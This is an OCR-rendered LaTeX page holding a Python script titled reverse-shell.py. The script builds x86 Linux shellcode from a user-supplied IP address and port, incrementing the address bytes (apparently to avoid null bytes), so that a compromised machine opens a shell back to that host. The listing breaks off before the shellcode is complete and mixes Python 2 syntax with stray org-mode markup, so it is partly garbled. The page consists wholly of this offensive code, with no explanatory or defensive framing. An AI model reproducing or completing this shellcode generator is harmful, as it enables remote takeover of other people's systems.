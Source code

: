 \documentclass[11pt]{article}
\begin{document}
\#+NAME reverse-shell.py
\begin{verbatim}
#!/usr/bin/python

import sys,socket

if len(sys.argv) != 3:
  print "Fail!"

ipbts           = bytearray(socket.inet_aton(sys.argv[1]))
incremented     = [b+1 for b in ipbts]
ip              = "".join(["\\x" + format(b, 'x') for b in incremented])
port_number     = int(sys.argv[2])
bts             = [port_number >> i & 0xff for i in (24,16,8,0)]
filtered        = [b for b in bts if b > 0]
formatted       = ["\\x" + format(b, 'x') for b in filtered]
port            = "".join(formatted)

shellcode ="\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x01\\x31\\xc9\\x51\\x53\\x6a\\x02\\x89\\xe1"
shellcode+="\\xcd\\x80\\x31\\xff\\x89\\xc7\\x31\\xc0\\xb0\\x66\\x31\\xc9\\xb9"
print("Ip is: ")
print(ip)
shellcode+= ip # "\\x80\\x01\\x01\\x02"
shellcode+="\\x81\\xe9\\x01\\x01\\x01\\x01\\x51\\x66\\x68"

\end{verbatim}
\end{document}
